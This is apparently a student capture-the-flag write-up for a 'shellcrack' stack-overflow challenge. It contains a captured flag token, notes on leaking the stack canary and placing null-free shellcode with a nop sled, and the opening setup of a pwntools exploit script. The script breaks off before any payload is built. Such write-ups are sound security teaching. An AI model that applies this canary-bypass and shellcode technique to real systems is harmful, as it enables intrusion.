 shellcrack
======================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNC1zaGVsbGNyYWNrIiwiaXAiOiIxNDQuMTM2LjI4LjM2Iiwic2Vzc2lvbiI6ImRmOTllNDA1LWNmNDAtNGY2Yi1hZTNhLTZkMjExNjAxNmZiNiJ9.tXTra87lGQzUsQEJC_zj1bS2Ohi_oMpiH0i_fad7gzo}
General overview of problems faced
-------------------------------------------------------
Initial payload behaved strangely. 16 'a's triggered both the first input and second input. It was probably sending 15 'a's,stopped receiving input then sent the last 'a' to the second input.
Had to try different variations to send non-null bytes.
The stack pointer points to our second input, where we will insert our main payload.
Had to find out stack positions to ensure the correct placement of the canary and return address.
Need to leak canary
The stack pointer provided points to the buffer. We can input shellcode in this buffer since we control it and overwrite the return address to return to this buffer where our shellcode will be executed.
Avoid inserting null bytes in the shellcode, push an xor's register to stack instead.
Use nopsled as filler, it's one byte each.
Binary shows the stack allocation of variables up to 58 bytes of the stack. Need to use this to know how many bytes to write to reach the canary and stack address.

Script/Command used
------------------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './shellcrack' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 17840 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
```